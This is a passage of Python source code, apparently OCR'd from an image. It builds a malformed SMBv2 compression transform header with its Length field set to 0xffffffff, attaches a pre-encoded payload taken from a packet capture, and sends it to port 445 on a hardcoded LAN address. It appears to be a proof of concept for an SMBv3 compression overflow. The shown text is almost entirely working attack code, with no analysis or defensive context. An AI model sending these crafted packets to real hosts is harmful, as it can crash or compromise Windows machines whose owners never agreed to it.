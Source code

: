 ```
                size=4,
                default=b"\\xfcSMB"
            )),
            ('OriginalCompressedSegmentSize', IntField(
                size=4,
                default=0x00
            )),
            ('CompressionAlgorithm', IntField(
                size=2,
                default=0x0002
            )),
            ('Flags', IntField(
                size=2,
                default=0x0000
            )),
            ('Length', IntField(
                size=4,
                default=0x00
            )),

        \])
        super(SMB2CompressionTransformHeader, self).\_\_init\_\_()


# 这里填充的是从wireshark里面抠出来已经lz77编码过的数据
header\_actual = b'\\xb0\\x82\\x88\\x00\\xfe\\x53\\x4d\\x42\\x40\\x00\\x01\\x00\\x01\\x00\\x08\\x00\\x0a\\x4c\\x00\\x00\\x00\\x06\\x8a\\x00\\x00\\x00\\xff\\xfe\\x00\\x9a\\x00\\x6d\\x79\\x00\\x10\\xa4\\x00\\x37\\x00\\x11\\x11\\x00\\x50\\x00\\xff\\xff\\xff\\x5f\\x00\\xbf\\x00\\x61\\x07\\x00\\x0f\\xff\\xfc\\x0f'
print(header\_actual)
print(len(header\_actual))
print("--"\*20)

message = SMB2CompressionTransformHeader()
message\['OriginalCompressedSegmentSize'\] = len(decode(header\_actual))
message\['Length'\] = 0xffffffff
actual = message.pack()
print(message)
msg\_body\_len = len(actual + header\_actual)
print(msg\_body\_len)
L = bytes.fromhex(hex(msg\_body\_len)\[2:\])
print(L)
nbss = b'\\x00' + b'\\x00' \* (3-len(L)) + L
print(nbss)

smb\_payload = nbss + actual + header\_actual
s = socket.socket(2, 1)
s.connect(("192.168.38.136", 445))
s.send(smb\_payload)
buff\_res = s.recv(4096)
print(buff\_res)
s.close()


```
